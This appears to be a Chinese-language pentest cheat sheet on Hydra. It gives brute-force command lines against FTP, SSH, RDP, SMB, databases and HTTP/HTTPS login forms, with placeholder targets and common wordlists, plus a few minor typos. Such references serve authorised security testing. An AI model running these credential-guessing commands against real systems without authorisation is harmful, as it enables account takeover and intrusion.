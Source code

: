 ```yaml
---
description: 密码爆破
---
```


# ✔️ Hydra

## 通用格式

1. **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] -u -f \[目标IP地址/域名] \[-s 端口号] \[模块] "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "**

* \-u：要尝试每一个密码的每一个用户名（遍历用户名列表&密码列表）
* \-f：找到第一个匹配项就立刻停止
* 模块：视具体情况而定
* "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "：此处常用于针对Web应用的登录界面的具体规则指定，需要结合BurpSuite以及查看源码来指定

2. **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] 协议://目标IP**

## &#x20;单独使用进行爆破

* 长针对于各种协议的服务进行爆破（FTP/SSH/RDP/TELNET/...）

### 针对各种协议的爆破

* **ftp**：用于破解 FTP（File Transfer Protocol）服务：

```bash
hydra -l username -P passwords.txt ftp://192.168.xxx.xx
```

* **ssh**：用于破解 SSH（Secure Shell）服务：

```bash
hydra -l username -P passwords.txt ssh://192.168.xxx.xx
```

* **telnet**：用于破解 Telnet 服务：

```bash
hydra -L usernames.txt -P passwords.txt telnet://192.168.xxx.xx
```

* **sip**：用于破解 SIP 服务器的认证：

```bash
hydra -L usernames.txt -P passwords.txt sip://192.168.xxx.xx
```

* **http-proxy**：用于破解 HTTP 代理服务器的认证：

```bash
hydra -L usernames.txt -P passwords.txt http-proxy://192.168.xxx.xx
```

* **smb**：用于破解 SMB（Server Message Block）服务，常用于 Windows 文件共享：

```bash
hydra -L usernames.txt -P passwords.txt smb://192.168.xxx.xx
```

* **snmp**：用于破解 SNMP（Simple Network Management Protocol）服务：

```bash
hydra -P passwords.txt snmp://192.168.xxx.xx
```

* **rdp**：用于破解 RDP（Remote Desktop Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt rdp://192.168.xxx.xx
```

* **smtp**：用于破解 SMTP（Simple Mail Transfer Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt smtp://192.168.xxx.xx
```

* **pop3**：用于破解 POP3（Post Office Protocol 3）邮件服务：

```bash
hydra -L usernames.txt -P passwords.txt pop3://192.168.xxx.xx
```

* **imap**：用于破解 IMAP（Internet Message Access Protocol）邮件服务：

```bash
hydra -L usernames.txt -P passwords.txt imap://192.168.xxx.xx
```

* **vnc**：用于破解 VNC（Virtual Network Computing）服务：

```bash
hydra -P passwords.txt vnc://192.168.xxx.xx
```

* **ldap**：用于破解 LDAP（Lightweight Directory Access Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt ldap://192.168.xxx.xx
```

* &#x20;**Cisco**：用于破解 Cisco 设备的认证：

```bash
hydra -L usernames.txt -P passwords.txt cisco://192.168.xxx.xx
```

### 针对数据库的爆破

* **mssql**：用于破解 Microsoft SQL Server：

```bash
hydra -L usernames.txt -P passwords.txt mssql://192.168.xxx.xx
```

* **mysql**：用于破解 MySQL 数据库服务：

```bash
hydra -l root -P passwords.txt mysql://192.168.xxx.xx
```

* **redis**：不直接支持 Redis 认证，但可以通过 TCP 协议进行爆破：

```bash
hydra -L usernames.txt -P passwords.txt -s 6379 192.168.xxx.xx redis
```

* **oracle**：用于破解 Oracle 数据库：

```bash
hydra -L usernames.txt -P passwords.txt oracle://192.168.xxx.xx
```

* **mongodb**：可使用Medusa

## 组合使用进行爆破（Hydra + BurpSuite）

* 常针对Web应用程序登录界面的表单进行爆破 (HTTP / HTTPS)

#### **http-form-post**：

* 用于破解基于 HTTP POST 表单的认证。通常用于网站登录页面的暴力破解。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-form-post**：

* 与 http-form-post 类似，但针对 HTTPS 协议的表单认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.xxx.xx http-form-post "/form/frontpage.php:user=admin&pass=^PAS
S^:INVALID LOGIN"  -vV -f
```

#### **http-form-get**：

* 用于破解基于 HTTP GET 表单的认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-form-get "/login?username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-form-get**：

* 与 http-form-get 类似，但针对 HTTPS 协议的表单认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-get "/login?username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-post-form**：

* 与 http-post-form 类似，但针对 HTTPS 协议：

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **http-post-form**：

* 用于执行更复杂的 HTTP POST 表单暴力破解，常用于需要多步验证或自定义表单参数的情况。

```bash
# 实例
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -u -f 192.168.xxx.xx -s 8080 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

* \`/login.php:username=^USER^\&password=^PASS^\`：此处需要使用BurpSuite拦截表单请求，根据实际情况进行修改
* \`F=\<form name='login' \`：此处需要查看源码中表单实际的名称进行修改



